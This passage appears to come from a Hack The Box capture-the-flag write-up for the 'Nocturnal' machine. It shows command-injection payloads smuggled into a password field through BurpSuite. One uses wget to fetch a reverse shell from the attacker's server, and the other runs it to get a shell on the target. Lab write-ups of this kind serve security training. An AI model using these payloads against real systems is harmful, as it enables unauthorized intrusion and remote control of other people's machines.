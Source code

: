 Back in BurpSuite, we run the payload to fetch the reverse shell file from our Python server onto the target.

```bash
password=%0abash%09-c%09"wget%0910.10.14.217:8081/shell"%0a&backup=
```

![alt text](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-14.png)

We run the reverse shell file with our payload, which gives us a shell back to the attacker machine.

```bash
password=%0abash%09shell%0a&backup=
```

![alt text](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-15.png)

